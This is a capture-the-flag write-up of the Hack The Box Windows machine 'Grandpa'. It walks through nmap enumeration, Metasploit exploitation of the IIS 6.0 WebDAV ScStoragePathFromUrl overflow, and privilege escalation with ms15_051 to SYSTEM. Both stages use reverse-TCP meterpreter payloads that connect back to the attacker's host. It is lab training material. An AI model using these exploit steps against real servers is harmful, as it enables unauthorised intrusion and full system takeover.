

---
search:
  exclude: true
---
# Grandpa Writeup

## Introduction :

Grandpa was an Easy Windows box released back in april 2017. It features a well known service with alot of metasploit options for us to work with.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      **λ root [ 10.10.14.48/23 ] [/home/nihilist] → nmap -sC -sV 10.10.10.14**
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-11 16:54 CET
      Nmap scan report for 10.10.10.14
      Host is up (0.035s latency).
      Not shown: 999 filtered ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Microsoft IIS httpd 6.0
      | http-methods:
      |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
      | http-ntlm-info:
      |   Target_Name: GRANPA
      |   NetBIOS_Domain_Name: GRANPA
      |   NetBIOS_Computer_Name: GRANPA
      |   DNS_Domain_Name: granpa
      |   DNS_Computer_Name: granpa
      |_  Product_Version: 5.2.3790
      |_http-server-header: Microsoft-IIS/6.0
      |_http-title: Under Construction
      | http-webdav-scan:
      |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
      |   Server Date: Mon, 11 Nov 2019 15:57:04 GMT
      |   Server Type: Microsoft-IIS/6.0
      |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
      |_  WebDAV type: Unknown
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
    

## **Part 2 : Getting User Access**

Firt of all let's see if IIS 6.0 has any publicly-known vulnerabilities using the **searchsploit** command. 
    
    
      λ nihilist [ 93.23.12.196 ] [~] → searchsploit IIS 6.0
      --------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                             |  Path
                                                                                 | (/usr/share/exploitdb/)
      --------------------------------------------------------------------------- ----------------------------------------
      Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disc | exploits/windows/remote/21057.txt
      Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow    | exploits/windows/remote/9541.pl
      Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service      | exploits/windows/dos/9587.txt
      Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service               | exploits/windows/dos/3965.pl
      Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service | exploits/windows/dos/15167.txt
      Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow   | exploits/windows/remote/41738.py
      Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                | exploits/windows/remote/8704.txt
      Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                | exploits/windows/remote/8806.pl
      Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)              | exploits/windows/remote/8765.php
      Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)            | exploits/windows/remote/8754.patch
      Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                   | exploits/windows/remote/19033.txt
      --------------------------------------------------------------------------- ----------------------------------------
      Shellcodes: No Result
    
    

For the first part we will try the exploit named "scstoragepathfromurl" which should give us a low privilege meterpreter session on the machine.
    
    
      msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options
    
      Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):
    
         Name           Current Setting  Required  Description
         ----           ---------------  --------  -----------
         MAXPATHLENGTH  60               yes       End of physical path brute force
         MINPATHLENGTH  3                yes       Start of physical path brute force
         Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
         RPORT          80               yes       The target port (TCP)
         SSL            false            no        Negotiate SSL/TLS for outgoing connections
         TARGETURI      /                yes       Path of IIS 6 web application
         VHOST                           no        HTTP server virtual host
    
    
      Exploit target:
    
         Id  Name
         --  ----
         0   Microsoft Windows Server 2003 R2 SP2 x86
    
    
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.14
      RHOST => 10.10.10.14
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
      [+] 10.10.10.14:80 - The target is vulnerable.
    

By typing the msf keyword **"Check"** We see that metasploit tells us that the target should be vulnerable to the iis webdav scs storagepath fromurl vulnerability. Let's test it.
    
    
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
    
      [*] Started reverse TCP handler on 10.10.14.48:4444
      [*] Trying path length 3 to 60 ...
      [*] Sending stage (180291 bytes) to 10.10.10.14
      [*] Meterpreter session 1 opened (10.10.14.48:4444 -> 10.10.10.14:1030) at 2019-11-11 16:56:26 +0100
    
      meterpreter > sysinfo
      Computer        : GRANPA
      OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
      Architecture    : x86
      System Language : en_US
      Domain          : HTB
      Logged On Users : 2
      Meterpreter     : x86/windows
      meterpreter >
    
    
    
      meterpreter > shell
      [-] Failed to spawn shell with thread impersonation. Retrying without it.
      Process 2820 created.
      Channel 2 created.
      Microsoft Windows [Version 5.2.3790]
      (C) Copyright 1985-2003 Microsoft Corp.
    
      c:\windows\system32\inetsrv>cd ../../..
      cd ../../..
    
      C:\>dir
      dir
       Volume in drive C has no label.
       Volume Serial Number is 246C-D7FE
    
       Directory of C:\
    
      04/12/2017  04:27 PM    **IR>          ADFS
      04/12/2017  04:04 PM                 0 AUTOEXEC.BAT
      04/12/2017  04:04 PM                 0 CONFIG.SYS
      04/12/2017  04:32 PM    **IR>          Documents and Settings
      04/12/2017  04:17 PM    **IR>          FPSE_search
      04/12/2017  04:17 PM    **IR>          Inetpub
      12/24/2017  07:18 PM    **IR>          Program Files
      12/24/2017  07:27 PM    **IR>          WINDOWS
      04/12/2017  04:05 PM    **IR>          wmpub
                     2 File(s)              0 bytes
                     7 Dir(s)  18,127,511,552 bytes free
    
      C:\>cd Documents And Settings
      cd Documents And Settings
    
      C:\Documents and Settings>cd Harry
      cd Harry
      Access is denied.
    
      C:\Documents and Settings>exit
      meterpreter >
    

We now have a low-privileged meterpreter session, let's see what processes are running on this machine to see if we could migrate to it. 
    
    
      meterpreter > ps
    
      Process List
      ============
    
       PID   PPID  Name               Arch  Session  User                          Path
       ---   ----  ----               ----  -------  ----                          ----
       0     0     [System Process]
       4     0     System
       272   4     smss.exe
       324   272   csrss.exe
       348   272   winlogon.exe
       396   348   services.exe
       408   348   lsass.exe
       616   396   svchost.exe
       680   396   svchost.exe
       740   396   svchost.exe
       768   396   svchost.exe
       804   396   svchost.exe
       940   396   spoolsv.exe
       968   396   msdtc.exe
       1080  396   cisvc.exe
       1124  396   svchost.exe
       1184  396   inetinfo.exe
       1220  396   svchost.exe
       1328  396   VGAuthService.exe
       1416  396   vmtoolsd.exe
       1464  396   svchost.exe
       1604  396   svchost.exe
       1716  396   alg.exe
       1796  396   dllhost.exe
       **1824  616   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe**
       1920  396   dllhost.exe
       2024  1464  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
       2124  616   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
       2232  396   vssvc.exe
       2288  2024  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
    
      meterpreter > migrate 1824
      [*] Migrating from 2288 to 1824...
    
    
    
    meterpreter > migrate 1824
    [*] Migrating from 2288 to 1824...
    [-] Error running command migrate: Rex::TimeoutError Operation timed out.
    meterpreter > exit
    [*] Shutting down Meterpreter...
    
    [*] 10.10.10.14 - Meterpreter session 3 closed.  Reason: User exit
    msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.48:4444
    [*] Trying path length 3 to 60 ...
    [*] Sending stage (180291 bytes) to 10.10.10.14
    [*] Meterpreter session 4 opened (10.10.14.48:4444 -> 10.10.10.14:1032) at 2019-11-11 17:11:01 +0100
    [*] Sending stage (180291 bytes) to 10.10.10.14
    [*] Meterpreter session 5 opened (10.10.14.48:4444 -> 10.10.10.14:1031) at 2019-11-11 17:11:08 +0100
    
    meterpreter > shell
    Process 2996 created.
    Channel 1 created.
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.
    
    C:\WINDOWS\system32>whoami
    whoami
    nt authority\network service
    
    C:\WINDOWS\system32>
    

We seem to have elevated a few privileges, but that's not enough as you can see below. 
    
    
      C:\WINDOWS\system32>cd ../..
      cd ../..
    
      C:\>cd Documents and Settings
      cd Documents and Settings
    
      C:\Documents and Settings>cd Harry
      cd Harry
      Access is denied.
    
      C:\Documents and Settings>cd Administrator
      cd Administrator
      Access is denied.
    
      C:\Documents and Settings>exit
      exit
    

Let's see if we can effectively privesc on this machine.  We will run the local exploit suggester on our meterpreter session.
    
    
      meterpreter > run post/multi/recon/local_exploit_suggester
    
      [*] 10.10.10.14 - Collecting local exploits for x86/windows...
      [*] 10.10.10.14 - 29 exploit checks are being tried...
      [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
      [+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
      [+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
    
      [+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    
      [+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
      [+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
      [+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
      [+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
      [+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    

We have got plenty of exploits to try ! Let's find out which will give us an elevated privilege meterpreter session. 

## **Part 3 : The Root Access**

After a couple of failed attempts at finding the correct local exploit for grandpa, i finally tried the exploit **ms15_051_client_copy_image**.  It is an exploit which takes advantage of Windows Kernel-Mode Drivers's vulnerabilities, which should effectively give us an elevation of privilege for our meterpreter session.
    
    
      meterpreter > background
      [*] Backgrounding session 5...
      msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use exploit/windows/local/ms15_051_client_copy_image
      msf5 exploit(windows/local/ms15_051_client_copy_image) > show options
    
      Module options (exploit/windows/local/ms15_051_client_copy_image):
    
         Name     Current Setting  Required  Description
         ----     ---------------  --------  -----------
         SESSION                   yes       The session to run this module on.
    
    
      Exploit target:
    
         Id  Name
         --  ----
         0   Windows x86
    
    
      msf5 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 5
      SESSION => 5
      msf5 exploit(windows/local/ms15_051_client_copy_image) > set PAYLOAD windows/meterpreter/reverse_tcp
      PAYLOAD => windows/meterpreter/reverse_tcp
      msf5 exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.48
      LHOST => 10.10.14.48
    

We use the aforementionned exploit and set the payload to **windows/meterpreter/reverse_tcp** with the correct LHOST parameter for the elevated privilege meterpreter to connect back to our host machine. Let's run it to see if we can effectively privesc this machine.
    
    
      msf5 exploit(windows/local/ms15_051_client_copy_image) > run
    
      [*] Started reverse TCP handler on 10.10.14.48:4444
      [*] Launching notepad to host the exploit...
      [+] Process 3496 launched.
      [*] Reflectively injecting the exploit DLL into 3496...
      [*] Injecting exploit into 3496...
      [*] Exploit injected. Injecting payload into 3496...
      [*] Payload injected. Executing exploit...
      [*] Sending stage (180291 bytes) to 10.10.10.14
      [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
      [*] Meterpreter session 6 opened (10.10.14.48:4444 -> 10.10.10.14:1035) at 2019-11-11 17:20:34 +0100
    
      meterpreter > shell
      Process 3652 created.
      Channel 1 created.
      Microsoft Windows [Version 5.2.3790]
      (C) Copyright 1985-2003 Microsoft Corp.
    
      C:\WINDOWS\system32>whoami
      whoami
      nt authority\system
    
      C:\WINDOWS\system32>cd ../../..
      cd ../../..
    
      C:\>dir
      dir
       Volume in drive C has no label.
       Volume Serial Number is 246C-D7FE
    
       Directory of C:\
    
      04/12/2017  04:27 PM    **IR>          ADFS
      04/12/2017  04:04 PM                 0 AUTOEXEC.BAT
      04/12/2017  04:04 PM                 0 CONFIG.SYS
      04/12/2017  04:32 PM    **IR>          Documents and Settings
      04/12/2017  04:17 PM    **IR>          FPSE_search
      04/12/2017  04:17 PM    **IR>          Inetpub
      12/24/2017  07:18 PM    **IR>          Program Files
      12/24/2017  07:27 PM    **IR>          WINDOWS
      04/12/2017  04:05 PM    **IR>          wmpub
                     2 File(s)              0 bytes
                     7 Dir(s)  18,127,536,128 bytes free
    
      C:\>cd Documents and Settings
      cd Documents and Settings
    
      C:\Documents and Settings>cd Harry
      cd Harry
    
      C:\Documents and Settings\Harry>cd Desktop
      cd Desktop
    
      C:\Documents and Settings\Harry\Desktop>more user.txt
      more user.txt
      bdXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
      C:\Documents and Settings\Harry\Desktop>cd ../../Administrator/Desktop
      cd ../../Administrator/Desktop
    
      C:\Documents and Settings\Administrator\Desktop>more root.txt
      more root.txt
      93XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And thats it ! **exploit/windows/local/ms15_051_client_copy_image** returned our meterpreter session as NT AUTHORITY\ SYSTEM, and we have been able to get both the user and root flags. 

## **Conclusion**

Here we can see the progress graph :

